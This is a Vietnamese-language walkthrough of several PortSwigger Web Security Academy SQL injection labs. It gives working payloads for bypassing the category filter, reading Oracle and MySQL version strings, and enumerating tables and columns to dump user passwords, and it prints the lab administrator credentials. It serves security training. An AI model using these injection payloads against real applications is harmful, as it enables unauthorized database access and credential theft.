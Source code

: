 # SQL injection

### Lab: SQL injection vulnerability in WHERE clause allowing retrieval of hidden data

This lab contains a SQL injection vulnerability in the product category filter. When the user selects a category, the application carries out a SQL query like the following:

`SELECT * FROM products WHERE category = 'Gifts' AND released = 1`

To solve the lab, perform a SQL injection attack that causes the application to display one or more unreleased products.

ở bài lab này, ta sẽ tập trung vào tìm kiếm lỗ hổng trong database của 1 website.

<figure><img src=".gitbook/assets/image (4) (1) (1).png" alt=""><figcaption><p>giao diện website</p></figcaption></figure>

nhìn qua webstie này ta biết nó trưng bày các mặt hàng. vậy ta sẽ thử click vào một mặt hàng bất kì xem sao.

<figure><img src=".gitbook/assets/image (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

khi ta chọn accessories, thì trên thanh url của website sẽ hiện category=Accessories. ở đây mình suy nghĩ là "sẽ ra sao nếu chúng ta chèn 1 kí tư lạ vào category"

<figure><img src=".gitbook/assets/image (2) (1) (1) (1).png" alt=""><figcaption><p>website sau khi chèn kí tự lạ</p></figcaption></figure>

ở đây mình sử dụng "category=' ". và trang web đã hiện ra lỗi hệ thống thay vì trả về kết quả thông thường như "không tìm thấy " hay hiện ra list đồ. từ đó, ta biết được website đã có lỗi trong database. để khai thác vào lỗi này mình sủ dụng category=%27+OR+1=1--

<figure><img src=".gitbook/assets/image (3) (1) (1) (1).png" alt=""><figcaption><p>kết quả cuộc tấn công</p></figcaption></figure>

## Lab: [SQL injection](https://portswigger.net/web-security/sql-injection) attack, querying the database type and version on Oracle

This lab contains a SQL injection vulnerability in the product category filter. You can use a UNION attack to retrieve the results from an injected query.

To solve the lab, display the database version string

&#x20;**Hint**

On Oracle databases, every `SELECT` statement must specify a table to select `FROM`. If your `UNION SELECT` attack does not query from a table, you will still need to include the `FROM` keyword followed by a valid table name.

There is a built-in table on Oracle called `dual` which you can use for this purpose. For example: `UNION SELECT 'abc' FROM dual`

For more information, see our [SQL injection cheat sheet](https://portswigger.net/web-security/sql-injection/cheat-sheet).

<figure><img src=".gitbook/assets/image (4) (1) (1) (1).png" alt=""><figcaption><p>giao diện bài lab</p></figcaption></figure>

ở bài lab này, tác giả yêu cầu ta khai thác version của trang web này vả tiết lộ rằng database của trang web này sử dụng phần mềm cùa oracle. đầu tiên ta sẽ thao tác cơ bản với web và bắt gói tin tại burp-suite. tại http history. ta sẽ gửi GET /filter?category=Gifts đến repeater.

<figure><img src=".gitbook/assets/image (4) (1).png" alt=""><figcaption></figcaption></figure>

tại đây ta sẽ thử tìm lỗi sql thông qua câu lệnh cơ bản '+SELECT+'abc'+FROM+dual-- và trang web trả về lỗi server. câu truy vấn này lỗi bởi vì mình thiếu UNION để thực thi 2 câu truy vấn cùng lúc và cùng với đó mình nhận ra rằng câu truy vấn trả vè một bảng bị lỗi bới vì qua quan sát, mình nhìn thấy nội dung trả về của trang web sẽ là title + script. vì vậy, ta sẽ thay đổi câu truy vấn của mình 1 chút.

<figure><img src=".gitbook/assets/image (1) (1) (1).png" alt=""><figcaption><p>sau khi thay đổi câu truy vấn</p></figcaption></figure>

mình sẽ thay đổi thành '+UNION+SELECT+'abc','def'+FROM+dual-- . trang web đã in ra abc def như ta yêu cầu. vì vậy, chúng ta đã tìm được cách ép server in ra mà ta mong muốn. việc còn lại là tìm ra câu lệnh in ra phiên bản của database như yêu cầu.

<figure><img src=".gitbook/assets/image (2) (1) (1).png" alt=""><figcaption></figcaption></figure>

ta đọc lại hint của đề bài, tác giả đã cho ta 1 cheatseet về SQL Injecttion. và ta đã tìm được câu lệnh trả về version. ở đây loại database mà chúng ta thao tác là của Oracle. &#x20;

SELECT banner FROM v$version. vì vậy câu truy vấn cuối cung của ta sẽ là

'UNION+SELECT+banner,'def'+from+v$version--

<figure><img src=".gitbook/assets/image (3) (1) (1).png" alt=""><figcaption></figcaption></figure>

vậy ta đã in ra thành công version của website và giải quyết challenge này.

## Lab: [SQL injection](https://portswigger.net/web-security/sql-injection) attack, querying the database type and version on MySQL and Microsoft

This lab contains a SQL injection vulnerability in the product category filter. You can use a UNION attack to retrieve the results from an injected query.

To solve the lab, display the database version string.

<details>

<summary><strong>Hint</strong></summary>

You can find some useful payloads on our [SQL injection cheat sheet](https://portswigger.net/web-security/sql-injection/cheat-sheet).

</details>

<figure><img src=".gitbook/assets/image (1) (1).png" alt=""><figcaption></figcaption></figure>

ở bài lab này, tác giả yêu cầu chúng ta khai thác version của database của MySQL cũng như Microsoft bằng cách in ra '8.0.36-0ubuntu0.20.04.1' giao diện của website. ta bắt các gói tin trong burpsuite. tại đây, sau khi xem qua các request, ta sẽ gửi request GET /filter?category=Tech+gifts vào repeater.

<figure><img src=".gitbook/assets/image (3) (1).png" alt=""><figcaption><p>request in repeater.</p></figcaption></figure>

tại đây, mình sẽ xem cheat sheet mà tác giả đã cho, và mình biết được câu truy vấn trả về version trong MySQL là SELECT @@version. và để câu command thành công mình sẽ sử dụng UNION và URL ecoding.&#x20;

final command: 'UNION+SELECT+@@version,+null#

ở đây mình +null ở sau version là bởi vì database trả về 2 bảng là title và content.  [\
](https://portswigger.net/academy/labs/launch/13e48d1949abb8793e11da34ed06a5811ea3a9b2be0501a5e9f0deb255d37406?referrer=%2fweb-security%2fsql-injection%2fexamining-the-database%2flab-querying-database-version-mysql-microsoft)

<figure><img src=".gitbook/assets/image (2) (1).png" alt=""><figcaption><p>result</p></figcaption></figure>

sau khi chạy command, mình đã in ra thành công version của database trong MySQL.

## Lab: [SQL injection](https://portswigger.net/web-security/sql-injection) attack, listing the database contents on non-Oracle databases

This lab contains a SQL injection vulnerability in the product category filter. The results from the query are returned in the application's response so you can use a UNION attack to retrieve data from other tables.

The application has a login function, and the database contains a table that holds usernames and passwords. You need to determine the name of this table and the columns it contains, then retrieve the contents of the table to obtain the username and password of all users.

To solve the lab, log in as the `administrator` user.

<details>

<summary> <strong>Hint</strong></summary>

You can find some useful payloads on our [SQL injection cheat sheet](https://portswigger.net/web-security/sql-injection/cheat-sheet).

</details>

<figure><img src=".gitbook/assets/image (3).png" alt=""><figcaption><p>xác định số cột được in ra</p></figcaption></figure>

Ở bài lab này, ta phải khai thác thông tin từ non-oracle database. ở ảnh trên, mĩnh xác định xem database sẽ trả về bao nhiêu cột, ở đây là 2.

<figure><img src=".gitbook/assets/image (4).png" alt=""><figcaption></figcaption></figure>

tiếp theo, ta sẽ dùng cheatsheet của đề bài cung cấp. ở đây, ta nhìn thấy việc truy xuất dữ liệu từ database không thuộc oracle đều được lấy từ information\_schema.tables & information\_schema.columns.

vì vậy, ta sẽ in ra tên bảng của database thông qua command sau: **'UNION+select+table\_name,null+from+information\_schema.tables--**&#x20;

<figure><img src=".gitbook/assets/image (6).png" alt=""><figcaption><p>các bảng được in ra qua câu command</p></figcaption></figure>

Sau khi lướt xem toàn bộ bảng, mình chú ý đến 2 bảng là pg\_user, users\_legzqo. Tuy nhiên, sau khi test thử thì bảng đầu tiên không cho mình thông tin gì cho việc khai thác. Trong khi đó bảng số 2 lại trả về những thông tin có ích.

Câu command mình dùng để in ra số cột của bảng:

**'UNION+SELECT+column\_name,NULL+FROM+information\_schema.columns+WHERE+table\_name='users\_legzqo'--**

<figure><img src=".gitbook/assets/image.png" alt=""><figcaption><p>cột của bảng users_legzqo</p></figcaption></figure>

sau khi trích xuất cột từ bảng users\_legzqo, mình để ý tới 2 cột là username\_xshbws, và password\_stbolo. Khi đã biết 2 cột cần khai thác, mình chỉ cần trích xuất thông tin từ 2 cột thông qua câu command:

'UNION+SELECT+username\_xshbws,password\_stbolo+FROM+users\_legzqo--

<figure><img src=".gitbook/assets/image (1).png" alt=""><figcaption><p>username và mật khẩu được in ra</p></figcaption></figure>

administrator: vmsguwzh126iicoib1n5

<figure><img src=".gitbook/assets/image (2).png" alt=""><figcaption></figcaption></figure>

## Lab: [SQL injection](https://portswigger.net/web-security/sql-injection) attack, listing the database contents on Oracle

This lab contains a SQL injection vulnerability in the product category filter. The results from the query are returned in the application's response so you can use a UNION attack to retrieve data from other tables.

The application has a login function, and the database contains a table that holds usernames and passwords. You need to determine the name of this table and the columns it contains, then retrieve the contents of the table to obtain the username and password of all users.

To solve the lab, log in as the `administrator` user.

<details>

<summary> <strong>Hint</strong></summary>



</details>



<figure><img src=".gitbook/assets/image (7).png" alt=""><figcaption></figcaption></figure>

'UNION+SELECT+table\_name,null+from+all\_tables--

<figure><img src=".gitbook/assets/image (8).png" alt=""><figcaption></figcaption></figure>

USERS\_TWRRPY

'UNION+SELECT+column\_name,null+from+all\_tab\_columns+WHERE+table\_name+%3d+'USERS\_TWRRPY'--

<figure><img src=".gitbook/assets/image (9).png" alt=""><figcaption></figcaption></figure>

'UNION+SELECT+USERNAME\_BKHDTO,PASSWORD\_TTSWTR+from+USERS\_TWRRPY--

<figure><img src=".gitbook/assets/image (10).png" alt=""><figcaption></figcaption></figure>

administrator: ol1iy37tllx2fo1h9mli

<figure><img src=".gitbook/assets/image (11).png" alt=""><figcaption></figcaption></figure>
